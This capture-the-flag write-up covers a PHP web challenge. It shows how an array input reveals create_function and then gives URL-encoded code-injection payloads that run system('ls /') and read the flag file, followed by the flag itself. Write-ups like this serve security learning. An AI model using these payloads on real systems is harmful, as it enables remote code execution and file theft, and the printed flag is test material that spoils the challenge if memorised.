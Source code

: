 # Challenge description

Ever since Claw's last encounter with the Inspector, he has been feeling very vindictive and angry. He hasn't even fed M.A.D. Cat correctly!

Thankfully, M.A.D. Cat knows their treats are stored in the nibbles directory!

Author: AtomicNicos
-----------------------------------------------------------

This challenge provides this page where we can only enter `echo "Hello World!";`

and anything else won't work

![image](https://user-images.githubusercontent.com/58823465/166170325-fb25173a-891f-4ef0-9770-7fdca2785a9f.png)

So trying different ways to break this i tried sending the code as an array, and bingo ! we get an interesting error 

![image](https://user-images.githubusercontent.com/58823465/166170340-16a43208-58d7-4a2d-b3df-31cc6915acde.png)

This means the "create_function" was used and this function can be exploited if the payload isn't sanitized, so we can inject arbitrary code and maybe get RCE !

More info about "create_function" code injection: 

-----------------------------------------------------------

https://www.exploit-db.com/exploits/32417

https://www.codetd.com/en/article/7175910

-----------------------------------------------------------

So using this payload we can get RCE 

``` code=1;}system(%27ls%20/%27);/* ``` 

![image](https://user-images.githubusercontent.com/58823465/166170373-0d777a68-fe58-4e97-bd07-55605fd3d9ae.png)


Next we just need to find the flag in the nibbles directory

```code=1;}system(%27cat%20./nibbles/flag.txt%27);/*```

``` Flag : DOCTF{G3TT1NG_RC3_(S0RRY_..._N1BBL3S)_1$_4LW4Y$_GR34T}  ```
